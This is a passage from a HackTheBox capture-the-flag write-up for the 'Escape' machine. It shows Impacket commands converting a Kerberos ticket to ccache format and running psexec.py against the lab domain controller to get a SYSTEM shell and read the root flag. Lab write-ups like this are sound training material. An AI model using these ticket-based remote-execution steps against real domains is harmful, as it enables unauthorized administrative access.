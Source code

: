 #### Step 4 - Transform the Ticket From KIRBI to CCACHE format

```
➜  Escape cat ticket.kirbi.b64 | base64 -d > ticket.kirbi
➜  Escape python3 ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
➜  Escape
```

#### Step 5 Run psexec

Looks like we have everything we need. Let's use Impacket `psexec.py` to get a shell as `Administrator`.

```
➜  Escape KRB5CCNAME=ticket.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip 10.10.11.202 sequel.htb/administrator@dc.sequel.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Oops! We get a error. We don't have to worry since this was expected. Since we are dealing with active directory, time is a very sensitive issue for the DC. We have to sync our time with the DC. We can use following command to do so.

```
➜  Escape sudo ntpdate dc.sequel.htb
2023-06-16 19:45:29.147201 (+0200) -0.000088 +/- 0.018286 dc.sequel.htb 10.10.11.202 s1 no-leap
```

We can now re-run the `psexec.py` command and get a shell as `Administrator`.

```
➜  Escape KRB5CCNAME=ticket.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip 10.10.11.202 sequel.htb/administrator@dc.sequel.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.sequel.htb.....
[*] Found writable share ADMIN$
[*] Uploading file evWzjprY.exe
[*] Opening SVCManager on dc.sequel.htb.....
[*] Creating service jRpW on dc.sequel.htb.....
[*] Starting service jRpW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami && type C:\Users\Administrator\Desktop\root.txt
nt authority\system
e2524c**************************

C:\Windows\system32>
```

## Final thoughts

This was a very fun box. I always like when there are Windows machines on HackTheBox, because, frankly, they are always a bit out of my comfort zone. I really hope you liked my writeup for this machine and I'll see you in the next one. Thanks!
